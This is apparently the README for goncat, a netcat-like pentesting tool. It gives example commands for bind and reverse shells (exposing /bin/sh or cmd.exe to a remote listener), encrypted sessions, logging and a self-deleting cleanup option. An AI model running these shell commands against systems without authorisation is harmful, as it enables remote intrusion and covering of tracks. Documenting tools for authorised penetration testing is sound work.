 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it can create log files of your sessions so you can later see and show exactly what you did.
Third, it has cross-platform PTY support for your convenience.
Finally, it can clean up after itself so you don't leave your binaries behind when you are done.

## Install

You can run `go install github.com/local/goncat` to install goncat to the `bin` folder in your GOPATH, usually `~/go/bin`.
Alternatively, download the pre-built binary for your system and architecture.
Download are available in the [release section](TODO).

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
There is only one binary combining all features and it works cross-platform.
For example, you can do the following things:
- Raw data transfers: `goncat listen --port 12345` to listen on port 12345,
  then from somewhere else `goncat connect --host 11.22.33.44 --port 12345` to connect. 
  Whatever you type on one end of the connection will be sent to the other.
- Bind/reverse shells: `goncat listen --exec /bin/sh --port 12345` to expose a shell on port 12345,
  then on the other side `goncat connect --host 11.22.33.44 --port 12345`
- Shells with encryption, PTY support and logging: `goncat listen --port 12345 --ssl --key secret --pty --log /tmp/session.log` to start a listener on port 12345,
  which logs the session to a file.
  Then on the remote side run `goncat.exe connect --host 11.22.33.44 --port 12345 --exec cmd.exe --ssl --key secret --pty`
  to get a fully interactive reverse shell, encrypted and authenticated with your password `secret`.

## Features

goncat provides two commands.
With `goncat listen` you launch a server that listens on a `--port` and optionally on a specific IP
specified with `--host` (default is any).
`goncat connect` launches a client which connects to a `--host` and `--port`.
By default goncat attaches to your stdin and stdout but you can pass `--exec` on either side
to launch an executable and attach to that.
Think of all this as the same you would usually do with `nc`, `ncat` and the like.

In addition to these basic features, there is:
- Encryption: you can add `--ssl` on both ends to ensure all traffic is encrypted.
- Authentication: on top of `--ssl` you can add `--key mypassword` on both ends.
  This way they both generate RSA keys derived from the shared password used for mutual TLS authentication.
- Logging: use `--log` to make goncat log all traffic sent over the wire to a local log file.
  For example, you can use that to document everything you did through a reverse shell.
- PTY support: add `--pty` on both ends to enable pseudoterminal support.
  Only makes sense if you expose shells with `--exec`.
  Works on Linux, Windows and MacOS.
  goncat handles all the details automatically, so there is no need for `stty raw -echo` or row and column size adjustments.
  It also restores your terminal when the connection terminates.
- Cleanup: you can pass `--cleanup` to make goncat delete itself on process termination.
  This works well on UNIX systems but Windows is tricky.
  Currently goncat launches a cmd-based cleanup job that runs 5 seconds after it terminated
  and marks the file for deletion on the next reboot just in case that job fails.
